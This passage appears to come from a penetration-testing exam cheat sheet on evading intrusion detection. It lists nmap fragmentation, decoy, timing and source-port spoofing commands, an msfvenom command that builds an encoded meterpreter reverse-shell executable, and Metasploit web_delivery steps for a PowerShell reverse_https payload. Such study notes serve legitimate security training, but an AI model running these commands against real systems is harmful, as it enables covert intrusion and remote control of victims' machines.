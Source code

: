 ```
tcpdump -i eth0 'tcp[13] & 2 != 0' -vv
```

**[Back to top](#top)**
___

## Module 12: Evading IDS/IPS
## Nmap Fragmentation

Packet Fragmentation (-f)

```
nmap -f -D RND:5 10.10.10.10  # Fragment packets + 5 decoys
```

Timing Manipulation (-T)

```
nmap -T0 10.10.10.10  # Paranoid (5+ min)
```

```
nmap -T5 10.10.10.10  # Insane (<30 sec)
```

Source Port Spoofing

```
nmap --source-port 53 10.10.10.10  # Appear as DNS traffic
```

### Metasploit Evasion (Guaranteed Exam Task)

Payload Encoding
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -f exe > payload.exe
```

Obfuscated Web Delivery

```
use exploit/multi/script/web_delivery
```

```
set target 2  # PowerShell
```

```
set payload windows/meterpreter/reverse_https
```

```
set LHOST 10.10.10.10
```

```
exploit
```
